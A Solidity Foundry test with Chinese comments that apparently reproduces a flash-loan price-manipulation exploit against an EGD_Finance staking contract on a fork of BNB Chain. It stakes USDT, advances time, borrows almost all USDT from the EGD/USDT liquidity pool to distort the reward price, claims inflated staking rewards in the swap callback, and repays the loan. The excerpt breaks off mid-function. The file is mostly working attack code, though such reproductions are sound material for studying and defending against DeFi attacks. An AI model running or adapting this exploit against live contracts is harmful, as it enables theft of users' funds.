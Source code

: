 ```solidity
    IEGD_Finance egd_finance;

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/bsc", blockheight);
        egd_finance = IEGD_Finance(EGD_Finance);
        deal(usdt, address(this), 50000 ether);
    }

    function testHack() public {
        stake();

        //模拟2天后
        vm.warp(block.timestamp + (2 * 24 * 60 * 60));

        console2.log(
            "all edg in EGD_Finance:",
            IERC20(egd).balanceOf(EGD_Finance)
        );

        console2.log("edg price before:", egd_finance.getEGDPrice());

        console2.log(
            "egd i should reward by noraml case:",
            egd_finance.calculateAll(address(this))
        );

        //贷款（价格操纵）
        uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
            99997600) / 100000000;
        EGD_USDT_LPPool.swap(0, borrowUSDT, address(this), "abcd");
    }

    function stake() public {
        egd_finance.bond(address(0x85cbfaBD709c744C84A36BA47145396d724EE751));
        IERC20(usdt).approve(address(egd_finance), 100 ether);
        egd_finance.stake(100 ether);
    }

    //贷款的回调函数
    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        console2.log(
            "edg price after (i borrowed huge USDT out):",
            egd_finance.getEGDPrice()
        );

        //在价格不合理的时候领取质押奖励
        egd_finance.claimAllReward();

        //归还贷款本金 + 5%手续费
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            ((count1 * 10_500_000_000) / 10_000_000_000)
        );

        console2.log(
            "edg i get from the stake reward:",
            IERC20(egd).balanceOf(address(this))
        );
```